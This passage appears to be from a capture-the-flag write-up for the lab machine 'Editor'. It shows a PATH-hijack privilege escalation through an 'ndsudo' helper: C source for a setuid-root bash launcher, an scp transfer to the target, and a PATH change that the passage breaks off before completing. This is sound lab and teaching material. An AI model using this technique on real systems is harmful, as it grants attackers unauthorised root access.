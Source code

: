 ```bash 
  Executables: megacli MegaCli 
  Parameters : -AdpBbuCmd -aAll -NoLog

- Command    : arcconf-ld-info
  Executables: arcconf 
  Parameters : GETCONFIG 1 LD

- Command    : arcconf-pd-info
  Executables: arcconf 
  Parameters : GETCONFIG 1 PD

The program searches for executables in the system path.

Variables given as {{variable}} are expected on the command line as:
  --variable VALUE

VALUE can include space, A-Z, a-z, 0-9, _, -, /, and .
```

So, our goal is to add a malicious binary of our choice to the `PATH` variable, since this `ndsudo` is using the system path variables.

>A mistake I did at this point was creating a bash script not actually creating a binary. So the rev shell i got back was of `Oliver`.
{: .prompt-danger }

Let's go:

0. Create a directory somewhere we have R-W permissions on:

```bash 
mkdir ~/evilsal
```

1. We setup and statically compile a C shell on our attacking machine:


```C 
#include <unistd.h>

int main() {
    setuid(0); setgid(0);
    execl("/bin/bash", "bash", NULL);
    return 0;
}
```

2. Transfer it to the target machine with `scp` since we have `SSH` creds:

```bash
scp nvme oliver@editor.htb:~/evilsal/nvme
```
>Note that the name `nvme` is crucial here, we need a name of a command that the `ntsudo` can execute.
{: .prompt-warning }

3. Add the `evilsal` directory to the `PATH` variable:
